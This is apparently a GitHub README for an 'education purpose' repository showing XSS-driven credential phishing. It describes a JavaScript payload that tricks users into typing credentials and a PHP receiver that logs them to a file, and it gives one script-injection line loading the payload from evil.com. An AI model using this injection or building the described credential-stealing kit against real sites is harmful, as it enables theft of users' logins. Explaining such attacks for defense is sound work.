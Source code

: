 # xss (Cross Site Social-engineering)

Simple implementasion of social engineering from xss
--for education purpose only--

# about this repository
This repository will tell you how bad xss it is

# content in this repository
x.js
Simple javascript payload to trigger user to give them credential's and send them to x.php

x.php
Simple php script to receive credential's from x.js and write it to creds.txt

creds.txt
file that store credential's from x.php and x.js

# what is xss ?
Cross-site scripting is a type of computer security vulnerability typically found in web applications. XSS enables attackers to inject client-side scripts into web pages viewed by other users. A cross-site scripting vulnerability may be used by attackers to bypass access controls such as the same-origin policy. --Wikipedia--

An attacker can use XSS to send a malicious script to an unsuspecting user. The end user’s browser has no way to know that the script should not be trusted, and will execute the script. Because it thinks the script came from a trusted source, the malicious script can access any cookies, session tokens, or other sensitive information retained by the browser and used with that site. These scripts can even rewrite the content of the HTML page. --OWASP--

# how it's work ?
```x.js```, ```x.php```, and ```creds.txt``` stored at evil.com then attacker use xss payload
to your website that vulnerable from xss --> ```<script src=https://evil.com/x.js></script>```

If xss reflected, attacker usually use shortlink to avoid suspicion and make the user of your website click into it
If xss stored, attacker usually just wait for the payload triggered from another user

and this will happen

![popup](https://raw.githubusercontent.com/laztname/xss/master/the.gif)

If the user of your website doesn't aware about security then they just believe it and don't know that was a scam accidentally they send their credential to the evil.com

# is xss just pop-up only ?
NO, attacker can use any javascript payload to use your website that vulnerable from xss
For any variation payload see it here http://www.xss-payloads.com/payloads-list.html?a#category=all

# how prevent from xss ?
Make sure filter any input from your website and don't forget to strip any html tags

# more information you can get from here
https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)

# special thanks to
- Allah
- my laptop
- surabayahackerlink.org
- xss-payloads.com
